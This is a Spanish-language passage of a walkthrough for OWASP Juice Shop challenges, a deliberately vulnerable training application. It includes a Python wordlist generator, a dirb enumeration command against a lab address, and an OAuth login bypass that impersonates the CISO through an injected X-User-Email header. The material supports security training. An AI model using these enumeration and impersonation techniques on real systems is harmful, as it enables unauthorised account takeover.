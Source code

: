 Podemos usar `dirb` para escanear todos los archivos de idioma, pero necesitamos una lista completa de palabras. Generemos nuestra propia lista:

```python
#!/usr/bin/python

from itertools import product
from string import ascii_lowercase

length = input("Ingrese la longitud de las palabras a generar: ")
print("Generando lista de palabras con longitud", length)

f = open('wordlist.txt', 'w')

for count, i in enumerate(product(ascii_lowercase, repeat=length)):
    f.write(''.join(i) + '\n')

print("Palabras generadas: %d" % count)

f.close()
```

Generamos todas las palabras con longitud 3 y luego ejecutamos `dirb` con los siguientes parámetros:  

```
dirb "http://192.168.99.100:3000/i18n/" wordlist.txt -X .json
```

Con este método, encontramos `tlh.json` (Klingon) y resolvemos el desafío.

---

#### **34: "Exploita OAuth 2.0 para iniciar sesión con la cuenta del Director de Seguridad de la Información."**

* Primero resuelve el desafío 6.

Inicia sesión con una cuenta válida de Google e intercepta la comunicación con Burp.  
Busca el paquete que contiene la solicitud `POST` a `/rest/user/login` y agrega manualmente la cabecera:  

```
X-User-Email: ciso@juice-sh.op
```

Puedes dejar el cuerpo de la solicitud como está:

```json
{
  "email": "something@gmail.com",
  "password": "c29tZXRoaW5nQGdtYWlsLmNvbQ==",
  "oauth": true
}
```

Esto permite iniciar sesión como el CISO y completar el desafío.
